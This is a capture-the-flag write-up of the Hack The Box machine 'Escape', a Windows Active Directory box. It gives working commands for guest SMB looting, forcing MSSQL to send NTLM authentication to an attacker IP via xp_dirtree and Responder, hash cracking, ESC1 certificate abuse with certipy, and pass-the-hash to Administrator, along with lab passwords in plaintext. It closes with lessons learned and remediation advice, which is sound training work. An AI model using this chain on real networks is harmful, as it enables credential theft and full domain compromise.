# Escape — Hack The Box

<p align="left">
  
</p>

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Medium |
| **OS** | Windows (Active Directory) |
| **Status** | ✅ Retired |
| **Key techniques** | Guest SMB access, MSSQL hash capture (`xp_dirtree` + Responder), log-file credential leak, AD CS ESC1 abuse |

---

## TL;DR

Escape is a Windows AD box on the `sequel.htb` domain. A guest-readable
SMB share hands out a PDF with a temporary MSSQL account. From MSSQL I
force the service to authenticate to my box and capture the `sql_svc`
NTLMv2 hash, crack it, and get a WinRM shell. A leftover `ERRORLOG.BAK`
leaks `ryan.cooper`'s password, and Ryan can enroll against a certificate
template vulnerable to **ESC1** — which I abuse to mint an Administrator
certificate and pull the Administrator hash.

---

## Recon

```bash
sudo nmap -sCV -p- 10.129.228.253
```




The open ports are a textbook domain controller: DNS (53), Kerberos (88),
RPC (135), LDAP/LDAPS (389/636), SMB (445), kpasswd (464), MSSQL (1433)
and WinRM (5985). MSSQL on a DC is the interesting one.

---

## SMB

Enumerated shares anonymously and found a non-default `Public` share:

```bash
smbclient -L //10.129.228.253
```



The share held a PDF of SQL server procedures — downloaded it:

```bash
smbclient //10.129.228.253/Public
ls
get "SQL Server Procedures.pdf"
```



The PDF documents a temporary MSSQL login left in place for testing:
`PublicUser:GuestUserCantWrite1`.



---

## Foothold

Added the host to `/etc/hosts` so Kerberos/LDAP names resolve:



Connected to MSSQL with the recovered account using Impacket:

```bash
impacket-mssqlclient sequel/PublicUser@10.129.228.253
```

The account has no write access, so instead of running commands I forced
the MSSQL service to authenticate to my machine and captured its hash — a
classic MSSQL technique:



Started Responder, then triggered an outbound SMB auth from MSSQL with
`xp_dirtree`:

```bash
sudo responder -I tun0
EXEC xp_dirtree '\\10.10.15.54\kali'
```



Responder caught the `sql_svc` NTLMv2 hash:



Cracked it with hashcat:

```bash
hashcat -m 5600 sql_svc_hash.txt /usr/share/wordlists/rockyou.txt
```



Password: `REGGIE1234ronnie`. Checked WinRM access with the new creds:

```bash
netexec winrm 10.129.228.253 -u sql_svc -p REGGIE1234ronnie
```



`(Pwn3d!)`, so logged in with Evil-WinRM:

```bash
evil-winrm -i 10.129.228.253 -u sql_svc -p REGGIE1234ronnie
```



---

## Lateral Movement

In `C:\SQLServer\Logs` there was an `ERRORLOG.BAK`. Reading it revealed a
failed-login line where `ryan.cooper` had typed his password into the
username field:





Credentials: `ryan.cooper:NuclearMosquito3`. Validated them over WinRM:

```bash
netexec winrm 10.129.228.253 -u Ryan.Cooper -p NuclearMosquito3
```



Logged in with Evil-WinRM and grabbed the user flag from Ryan's desktop:

```bash
evil-winrm -i 10.129.228.253 -u Ryan.Cooper -p NuclearMosquito3
```



---

## Privilege Escalation

### AD CS enumeration

Ryan is a member of `BUILTIN\Certificate Service DCOM Access` — a hint
that Active Directory Certificate Services is in play. Enumerated AD CS
with Certipy:

```bash
certipy-ad find -u Ryan.Cooper@sequel.htb -p 'NuclearMosquito3' -dc-ip 10.129.228.253
```





One template was flagged vulnerable to **ESC1** — enrollees can supply an
arbitrary `subjectAltName`, so a low-privileged user can request a
certificate *as* any account, including Domain Admin:



### ESC1 abuse

Requested a certificate for the Administrator account through the
vulnerable template:

```bash
certipy-ad req -u 'Ryan.Cooper@sequel.htb' -p 'NuclearMosquito3' \
  -dc-ip 10.129.228.253 -target dc.sequel.htb -ca sequel-DC-CA \
  -template UserAuthentication -upn administrator@sequel.htb
```



Authentication needs the clock in sync with the DC, so synced time first,
then authenticated with the PFX to get the Administrator NT hash:

```bash
sudo ntpdate 10.129.228.253
certipy-ad auth -pfx 'administrator.pfx' -dc-ip 10.129.228.253
```



### Shell as Administrator

Passed the hash to Evil-WinRM for an Administrator shell:

```bash
evil-winrm -i 10.129.228.253 -u Administrator -H <redacted-nt-hash>
```



Read the root flag from `C:\Users\Administrator\Desktop\root.txt`:



---

## Lessons Learned

- Anonymous/guest SMB access is worth checking on every AD box — a single
  readable share leaked the whole foothold here.
- When a SQL account can't run commands, it can often still be *coerced*:
  `xp_dirtree` against Responder turns "no write access" into a
  crackable service hash.
- Log and backup files (`ERRORLOG.BAK`) frequently capture credentials
  users fat-fingered into the wrong field — always read them.
- AD CS is a domain-compromise surface in its own right; ESC1 alone takes
  a normal user straight to Domain Admin.

---

## Remediation

- Remove sensitive documents (and embedded credentials) from
  guest-readable shares; disable anonymous SMB enumeration.
- Run MSSQL under a low-privileged, non-domain service account and block
  outbound SMB so hash capture isn't possible.
- Scrub credentials from log/backup files and restrict who can read them.
- Fix ESC1: remove `ENROLLEE_SUPPLIES_SUBJECT` from templates that allow
  client authentication, and tighten enrollment rights and CA manager
  approval.

---

## Tools used

- `nmap`
- `smbclient`
- Impacket (`mssqlclient.py`)
- `responder`
- `hashcat`
- `netexec`, `evil-winrm`
- `certipy-ad`

---

**See also:** [Active Directory methodology](../../methodology/active-directory.md)

---

**Machine:** [Hack The Box — Escape](https://www.hackthebox.com/machines/escape)
